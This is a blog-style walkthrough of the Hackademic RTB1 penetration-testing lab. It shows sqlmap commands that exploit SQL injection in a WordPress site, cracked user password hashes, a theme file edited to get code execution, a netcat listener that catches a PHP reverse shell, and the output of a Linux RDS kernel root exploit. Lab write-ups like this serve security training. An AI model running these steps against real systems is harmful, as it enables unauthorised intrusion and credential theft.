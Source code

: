 ```yaml
---
layout: post
title: "Pentest lab - Hackademic RTB1"
date: 2016-07-18 09:00:59 -0400
comments: true
categories: [penetration testing, writeups]
keywords: pentesting, hacking, penetration testing, hacking lab, pentest lab, web hacking, ctf, hackademic, hackademic rtb1, vulnhub, writeup, walkthrough, hackademic rtb1 solution, hackademic challenge 1
description: Writeup for Hackademic RTB1
---
```


# Mission statement

Get root and read the contents of the file 'key.txt' in the root directory.

<!-- more -->

# Recon

I started with a port scan of the target, but only the 80 port is open:

{% img center /images/pentest/hackademic/rtb1-web.png 'hackademic' 'hackademic website' %}

I looked at the links and noticed the URL for the post is http://192.168.80.162/Hackademic_RTB1/?p=9 and for the archives is http://192.168.80.162/Hackademic_RTB1/?cat=1 . Before going to Sqlmap, I manually inserted quotes in the URLs and sure enough, a SQL error for the cat parameter:

{% img center /images/pentest/hackademic/rtb1-sqli.png 'sqli' 'sql error' %}

# Exploit

Next I enumerated the databases with Sqlmap:

``` plain
sqlmap -u "http://192.168.80.162/Hackademic_RTB1/?cat=1" --dbms=MySQL --dbs
available databases [3]:
[*] information_schema
[*] mysql
[*] wordpress
```

Since this is a web-based challenge, I proceeded to look into the wordpress database:

``` plain
sqlmap -u "http://192.168.80.162/Hackademic_RTB1/?cat=1" --dbms=MySQL -D wordpress --tables
Database: wordpress
[9 tables]
+-------------------+
| wp_categories     |
| wp_comments       |
| wp_linkcategories |
| wp_links          |
| wp_options        |
| wp_post2cat       |
| wp_postmeta       |
| wp_posts          |
| wp_users          |
+-------------------+
```

I further enumerated the wp_users table and here I am showing only the relevant information:

``` plain
user_pass				user_login
21232f297a57a5a743894a0e4a801fc3	NickJames
b986448f0bb9e5e124ca91d3d650f52c	JohnSmith
7cbb3252ba6b7e9c422fac5334d22054	GeorgeMiller
a6e514f9486b83cb53d8d932f9a04292	TonyBlack
8601f6e1028a8e8a966f6c33fcd9aec4	JasonKonnors
50484c19f1afdaf3841a0d821ed393d2	MaxBucky
```

Cracking the hashes revealed the passwords of all the users:

``` plain
admin
PUPPIES
q1w2e3
napoleon
maxwell
kernel
```

Then I went to the Wordpress login page at http://192.168.80.162/Hackademic_RTB1/wp-login.php and logged in as NickJames (assumed he was admin because of his password). But there was nothing extraordinary to be done with his privileges, just adding and editing posts. We have more users to try  though! When I reached GeorgeMiller, I noticed there were more actions available in the admin panel:

{% img center /images/pentest/hackademic/rtb1-panel.png 'dashboard' 'admin panel' %}

In the Presentation tab I could edit themes for the site. I picked the 404.php file and replaced its content with a line that would echo something first, so I don't waste my time with shells without checking if code is executed successfully. 

{% img center /images/pentest/hackademic/rtb1-404.png '404.php' 'php file edited' %}

When I went to the http://192.168.80.162/Hackademic_RTB1/wp-content/themes/starburst/404.php URL, I saw RCE displayed, so next I used the now-familiar reverse PHP shell from pentestmonkey. Set up my listener and visited the URL again to receive the shell:

``` plain
nc -vnlp 5555
listening on [any] 5555 ...
connect to [192.168.80.161] from (UNKNOWN) [192.168.80.162] 50723
Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux
 13:23:45 up  3:04,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=489(apache) groups=489(apache)
sh: no job control in this shell
```

## Privilege escalation

The shell kept echoing back the commands I was running but otherwise it worked fine. I didn't find anything interesting that I could use during local enumeration, so I then searched for privilege escalation exploits that might apply to the kernel version 2.6.31 found on the box. The exploit that worked was the [RDS privilege escalation exploit](https://www.exploit-db.com/exploits/15285/) by Dan Rosenberg. You can also find it on Kali with Searchsploit. I compiled it on my machine with the *-m32* flag for the target architecture and transfered it via netcat. Then I ran it and I stared a bit at the blinking cursor before confirming that it gave me root:

``` plain
sh-4.0$ ./rds
./rds
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
id
uid=0(root) gid=0(root)
cat /root/key.txt
Yeah!!
You must be proud because you 've got the password to complete the First *Realistic* Hackademic Challenge (Hackademic.RTB1) :)

$_d&jgQ>>ak\#b"(Hx"o<la_%

Regards,
mr.pr0n || p0wnbox.Team || 2011
http://p0wnbox.com
```

# Debriefing

The machine looked pretty tightly locked with only a web server running. But the WordPress version was contained a known SQLi exploit that handed down the hashes for the users. One user had the rights to upload code on the server and facilitated geting (limited) access on the target. The kernel was vulnerable to a local root exploit, and from there it was game over.

GG, nice VM! Now let's end with some wisdom straight from the cow's mouth:

``` plain
/ Don't relax! It's only your tension \
\ that's holding you together.        /
 -------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```




